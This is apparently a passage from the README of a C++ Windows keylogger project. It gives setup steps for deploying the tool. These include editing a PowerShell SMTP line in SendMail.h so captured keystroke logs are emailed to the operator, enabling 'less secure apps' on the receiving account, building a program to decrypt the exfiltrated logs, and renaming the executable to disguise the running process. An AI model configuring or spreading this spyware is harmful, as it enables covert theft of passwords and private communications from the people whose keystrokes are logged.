 **SKIP OTHER EMAILS SECTION IF SOURCE EMAIL IS GMAIL**

## Other Emails
OPTIONAL: If you want to use another email other than gmail as the source email, then follow these steps.

Open SendMail.h
```
located at ..\Cpp-Keylogger\Keylogger\SendMail.h
```
Edit line 39 with your email port number which can be searched up
```
line 39: "           $Client = New-Object Net.Mail.SmtpClient($Srv, 587) #587 port for smtp.gmail.com SSL\r\n "
```

### Configuring Other Emails
Look up permissions respectively for your source email that allow less secure apps to access that source email.

## Decrypting the log files
Follow these steps to decrypt any received log files

Open the Decryption program solution with Visual Studio
```
located at ..\Cpp-Keylogger\Keylogger-Decrypt.sln
```
For other IDEs, make a project that includes all source files
```
located at ..\Cpp-Keylogger\Keylogger-Decrypt\
```
Build the solution, and find the exe (default: located at ../Cpp-Keylogger/Debug)
```
located at ..\Cpp-Keylogger\Debug\Keylogger-Decrypt.exe
```
Open a command prompt window at that directory
```
cd ..\Cpp-Keylogger\Debug\
```
Run the decryption program which takes in a input file and a output file which contains the decrypted contents
```
.\Keylogger-Decrypt.exe "inputfile.log" "outputfile.log"
```

## Customization
OPTIONAL changes the user can make to the source code to fit their needs.

## Naming the Process
The name of the process can simply be changed by renaming the .exe file of the built solution

Build the solution
```
Build -> Build Solution
The .exe file should be located by default in ..\Cpp-Keylogger\Debug\Keylogger.exe
```
Rename the built Keylogger.exe file
